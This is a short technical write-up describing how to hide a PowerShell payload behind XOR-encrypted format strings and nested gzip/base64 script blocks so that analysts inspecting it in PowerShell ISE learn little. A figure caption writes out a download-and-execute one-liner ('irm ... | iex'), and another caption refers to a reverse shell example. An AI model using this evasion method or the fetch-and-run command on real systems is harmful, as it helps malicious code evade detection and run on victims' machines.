

# PowerShell Script Block Obfuscation

### Background

This method was developed to obfuscate a payload behind several gzipped base64 encoded script blocks and XOR encrypted format strings. All while avoiding setting as few variables as possible to prevent someone from running the script in PowerShell ISE and inspecting the variable assignments. The obfuscated script blocks can be ran with arguments and piped to each other.

### Analysis

The initial stage of the obfuscation starts by defining an XOR key and saves the input text characters XORed with the key, allowing for the string to be rebuilt later. Before the string is reassembled both arrays are shuffled the same way and saved. Then, a format string is build referencing the XOR key array and the value to rebuild the character encrypted.&#x20;

<figure><figcaption>
Example first stage obfuscation
</figcaption></figure>

After the obfuscated string is created the script will gzip and base64 encode the first stage payload and append the PowerShell commands to allow it to decompress and decode from the command line. For a simple string or a command with no arguments the obfuscation can stop here to save space in the final payload.

<figure><figcaption>
Second stage obfuscation
</figcaption></figure>

For commands with arguments the script will parse for the commands flags and arguments appending the flags and obfuscating the arguments. Lastly the script will take the built string and re-compress and encode the payload making one gzipped base64 encoded payload.

<figure><figcaption>
<em>irm -uri 127.0.0.1/test.ps1 | iex</em>
</figcaption></figure>

<figure><figcaption>
Reverse shell example
</figcaption></figure>

